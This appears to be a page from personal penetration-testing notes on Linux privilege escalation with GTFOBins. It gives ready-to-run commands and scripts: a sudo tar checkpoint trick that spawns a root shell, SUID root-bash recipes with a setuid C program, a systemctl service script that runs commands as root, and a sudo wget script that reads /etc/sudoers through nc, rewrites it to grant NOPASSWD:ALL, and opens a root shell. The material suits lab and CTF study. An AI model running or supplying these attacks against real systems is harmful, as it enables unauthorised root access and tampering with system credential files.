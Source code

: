 # GTFOBins

<div class="row row-cols-lg-2"><div>

**[GTFOBins](https://gtfobins.github.io/)** (9.5k ⭐) a.k.a. "Get The Fuck Out" is a list of way to exploit binaries such as `sed`/`tar`/... to get root.

Common use cases are:

* [Binary was given SUID/GUID permissions](perms.md#suidguid-bit)
* [Binary was given capabilities](perms.md#capabilities)
* [Binary was delegate sudo permission](sudo.md#administrative-privileges)
* ...

Note that not every exploit may pop a shell. Some only allow you to edit some files, which may help getting root.
</div><div>

**Example** 🔥

You can only run `tar` using `sudo`. Run the command below from [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), and you will get a root shell.

```ps
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

➡️ You can use [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup) (0.2k ⭐) for offline browsing.
</div></div>

<hr class="sep-both">

## Create a root bash

<div class="row row-cols-md-2 mt-3"><div>

* ➡️ Version 1: with root executing 2 commands

```ps
$ cp /bin/bash /tmp/rootbash
```

Run **as root** (SUID executable, sudo...) the commands

```ps
$ chown root /tmp/rootbash
$ chmod +s /tmp/bash
```

Run the bash with `-p` and enjoy.

```ps
$ /tmp/rootbash -p
```
</div><div>

* ➡️ Version 2: with root executing an executable

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

```ps
$ gcc xxx.c -o rootbash
```

Then, you have to execute `rootbash` as root, either using a misconfiguration in sudo, SUID, cron jobs...

</div></div>

<hr class="sep-both">

## ⚡ SUID `systemctl` script

Description: this script makes it easier to run several commands using `systemctl`.

<div class="row row-cols-md-2 mt-4"><div>

Create a file `script.sh` with the contents below

```ps
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```
</div><div>

Calls

```ps
$ chmod +x script.sh
$ ./script.sh id
$ ./script.sh ls -laR /root
```
</div></div>

<hr class="sep-both">

## ⚡ SUDO `wget` script

Description: this script automate privilege escalation using `wget`.

<div class="row row-cols-lg-2"><div class="align-self-center">

It's quite easy to do it manually, but you need two machines (ex: your VM and the target). This script is complex because everything is done locally, without interacting with your VM!

* Will use `wget` to fetch `/etc/sudoers` and `nc` to grab the result

* Then, it will replace the line giving access to `wget` and give you the permission to run every command as root

* Then, we will start a python web server, and use `wget` with `-o` to replace our new sudo file with the tampered one.

* Finally, the script run `sudo bash` and open your shell as root

⚠️ The script may mess with your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) file if something goes wrong. I destroyed my VM 7 times before managing to make the script work 🌳. If you understand the commands used in the script, use them one by one, and check the tampered sudoers file (output) BEFORE overriding the current one.
</div><div>

```bash
file=/etc/sudoers
port=4444
# todo: use mktemp
output=stolenfile

# Working in /tmp
cd /tmp
# -d and -q 0 to quit when connection is closed
nc -dlnp $port -q 0 > $output &
# -q = quiet, and -T 1 = close after one second
sudo wget -q --post-file=$file localhost:$port -T 1
# remove the HTTP headers
sed -i '1,9d' $output
# replace the command with find
sed -i "s/\($(whoami).*\)/$(whoami)  ALL=(ALL) NOPASSWD:ALL/g" $output
# create a web server
python3 -m http.server $port &
pid=$(echo $!)
sleep 1 # let the webserver start
# get the file then kill the webserver
# replace /etc/sudoers
sudo wget -q localhost:$port/$output -O $file && kill $pid
# open the root shell
sudo bash
```
</div></div>
